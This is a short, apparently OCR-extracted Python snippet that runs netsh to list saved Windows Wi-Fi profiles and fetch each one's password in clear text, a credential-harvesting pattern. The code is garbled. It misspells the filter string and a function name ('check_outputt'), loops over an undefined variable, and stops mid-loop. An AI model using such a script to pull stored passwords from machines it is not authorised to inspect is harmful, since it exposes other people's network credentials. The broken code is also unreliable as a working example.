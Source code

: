 import subprocess
data = subprocess.check_output(['netsh','wlan','show','profiles']).decode('utf-8').split('\n')
profiles=[i.split(":")[ 1 ][1:-1]for i in data if"all user protfile"in i]
for i in protofiles:
	password=subprocess.check_outputt(['netsh','wlan','show','profiles',i,'key=clear']).decode('utf-8').split('\n')
	
